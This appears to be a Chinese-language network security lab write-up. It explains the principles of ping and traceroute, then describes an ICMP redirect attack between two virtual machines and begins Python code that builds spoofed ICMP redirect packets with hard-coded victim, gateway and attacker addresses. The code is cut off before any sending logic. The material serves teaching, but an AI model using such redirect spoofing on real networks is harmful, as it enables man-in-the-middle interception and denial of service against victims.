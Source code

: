 ### ping命令原理 ###

  Ping 程序利用 ICMP 回显请求报文和回显应答报文(而不用经过传输层)来测试目标主机是否可达。它是一个检查系统连接性的基本诊断工具。  
  ICMP 回显请求和 ICMP 回显应答报文是配合工作的。当源主机向目标主机发送了 ICMP 回显请求数据包后，它期待着目标主机的回答。目标主机在收到一个 ICMP 回显请求数据包后，它会交换源、目的主机的地址，然后将收到的 ICMP 回显请求数据包中的数据部分原封不动地封装在自己的 ICMP 回显应答数据包中，然后发回给发送 ICMP 回显请求的一方。如果校验正确，发送者便认为目标主机的回显服务正常，也即物理连接畅通。

### traceroute命令原理 ###

Traceroute 程序主要用来侦测源主机到目的主机之间所经过的路由的情况。  
Traceroute 使用 ICMP 报文和 IP 首部中的 TTL 字段，它充分利用了 ICMP 超时消息。其原理很简单，开始时发送一个 TTL 字段为 1 的 UDP 数据报，而后每次收到 ICMP 超时萧后，按顺序再发送一个 TTL 字段加 1 的 UDP 数据报，以确定路径中的每个路由器，而每个路由器在丢弃 UDP 数据报时都会返回一个 ICMP 超时报文，而最终到达目的主机后，由于 ICM P选择了一个不可能的值作为 UDP 端口(大于30000)。这样目的主机就会发送一个端口不可达的 ICMP 差错报文。

### 实验背景 ###

  ICMP重定向信息是路由器向主机提供实时的路由信息，当一个主机收到ICMP重定向信息时，它就会根据这个信息来更新自己的路由表。由于缺乏必要的合法性检查，如果一个黑客想要被攻击的主机修改它的路由表，黑客就会发送ICMP重定向信息给被攻击的主机，让该主机按照黑客的要求来修改路由表。  
  在VMware虚拟环境中（Virtual Box不同）(*.*.*.2)是充当网关的默认地址（通过route命令可以查看当前的网关和路由信息)；所以攻击者可以冒充(*.*.*.2)发出重定向包，通知受害者修改自己的网关为攻击者指定的gw地址；如果伪造的gw是自身，可以实现中间人攻击或者DOS攻击（没有启动IP转发功能）；如果是随意IP（不能到达或不负责转发），则可以导致DOS攻击。

 * 清除路由缓存：ip route flush cache
 * 查看路由缓存：route -n
 
### 实验环境 ###

启动两台虚拟机，一台作为攻击者，一台作为被攻击者。

### 攻击代码 ###

	import socket
	import struct
	import threading
	import time
	import sys
	import random
	import pcap
	import dpkt
	import pcapy
	
	
	vic_ip = "192.168.220.130" #受害者IP
	gateway_ip = "192.168.220.2" #网关IP
	attack_ip = "192.168.220.136"#攻击者IP
	
	class ICMP(object):
	    def __init__(self, gateway):
	        self.type = 5 #类型：重定向包
	        self.code = 1
	        self.checksum = 0
	        self.gateway = socket.inet_aton(gateway)
	    def pack(self,data=''):
	        icmp_header = struct.pack("!BBH4s",
	                      self.type,
	                      self.code,
	                      self.checksum,
	                      self.gateway)
	        self.checksum = checksum(icmp_header+data)
	        icmp_header = struct.pack("!BBH4s",
	                      self.type,
	                      self.code,
	                      socket.htons(self.checksum),
	                      self.gateway)
	        return icmp_header
		